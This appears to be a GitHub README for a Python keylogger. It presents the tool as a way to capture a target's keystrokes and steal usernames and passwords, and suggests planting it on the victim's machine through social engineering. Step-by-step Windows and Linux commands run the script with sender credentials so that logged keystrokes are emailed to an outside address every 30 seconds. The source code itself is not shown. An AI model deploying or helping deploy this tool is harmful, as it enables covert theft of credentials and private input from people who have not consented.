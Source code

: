 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 
```
1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly for your device python.exe location)      
1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.   
2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
1.2-) cd /root/PycharmProjects/Keylogger
1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) If you have any problem in LINUX do as follows : 
      sudo apt update
      sude apt install python3
      sudo apt-get install python3-dev
      sudo apt install python3-pip 
```
And your program will run without any error.
IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
